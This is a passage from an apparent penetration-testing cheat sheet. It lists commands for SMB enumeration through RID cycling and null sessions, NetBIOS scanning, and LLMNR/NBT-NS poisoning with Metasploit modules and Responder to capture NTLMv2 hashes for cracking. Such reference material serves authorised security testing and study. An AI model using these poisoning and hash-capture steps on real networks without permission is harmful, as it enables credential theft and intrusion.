RID Cycling:

```
ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
```

Metasploit module for RID cycling:

```
use auxiliary/scanner/smb/smb_lookupsid
```

**Manual Null session testing:**

Windows:

```
net use \\TARGET\IPC$ "" /u:""
```

Linux:

```
smbclient -L //192.168.99.131
```

**NBTScan unixwiz**

Install on Kali rolling:

```
apt-get install nbtscan-unixwiz 
nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan
```

#### LLMNR / NBT-NS Spoofing <a href="#llmnr--nbt-ns-spoofing" id="llmnr--nbt-ns-spoofing"></a>

Steal credentials off the network.

**Metasploit LLMNR / NetBIOS requests**

Spoof / poison LLMNR / NetBIOS requests:

```
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
```

Capture the hashes:

```
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```

You’ll end up with NTLMv2 hash, use john or hashcat to crack it.

**Responder.py**

Alternatively you can use responder.

```
git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
```
